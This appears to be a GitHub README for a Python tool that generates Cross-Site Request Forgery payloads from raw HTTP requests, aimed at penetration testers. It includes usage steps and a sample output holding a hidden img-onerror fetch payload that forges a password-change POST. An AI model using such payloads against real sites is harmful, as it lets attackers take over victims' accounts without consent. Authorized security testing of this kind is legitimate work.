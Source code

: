 # csrf-payload-generator
CSRF Payload Generator A powerful and flexible Cross-Site Request Forgery (CSRF) Payload Generator designed for security enthusiasts and penetration testers. This tool automates the generation of CSRF attack payloads based on HTTP requests.

Features
* Supports Multiple Payload Methods:
    
    - fetch: Uses the Fetch API to execute CSRF requests programmatically.
    - onerror: Leverages the onerror event of an empty image tag for CSRF execution.
    - form: Auto-submitting HTML forms for CSRF attacks.

* HTML Output:
    - Generates an easy-to-use HTML file containing all the CSRF payloads for testing.

* How It Works
    - Input: Supply a raw HTTP request 
    - Process: The tool parses the HTTP request, extracts relevant data, and generates payloads.
    - Output: Produces an HTML file containing the generated payloads for execution.

* Usage
  
  1 - Clone the repository:
  
---
  ```
git clone https://github.com/Abutalib-Zarban/csrf-payload-generator.git

```
 2 - Navigate to the directory:
  ```
cd csrf-payload-generator

```

 3 - Run the script with a  HTTP request file:

```
python3 csrf_generator.py request.txt


```

4- Select the desired CSRF payload method:

    
    1: fetch
    2: onerror
    3: form
    4: All methods
View the output in the csrf_payloads.html file.


* Requirements
    - Python 3.x: The script is written in Python and requires Python 3.x.

 
---------------------------
* Request sample :
```
  POST /user/change-password HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Cookie: sessionid=abcd1234efgh5678ijkl9012mnop3456

new_password=newpassword456
```

----------------------------
* Tool Output :

  
```
   <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>CSRF Payloads</title>
</head>
<body>
    <h1>Generated CSRF Payloads</h1>

    <h2>Onerror Payload</h2>
    <div>
        <pre>
<img src="" onerror="fetch('http://www.example.com/user/change-password', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    }, body: 'new_password=newpassword456xyy'
})" style="display:none;">
</pre>
    </div>
    <hr>

</body>
</html> 
```

------
* Disclaimer
This tool is intended for educational purposes and authorized security testing only. Misuse of this tool may result in legal consequences. Always obtain proper permission before conducting any tests.
 

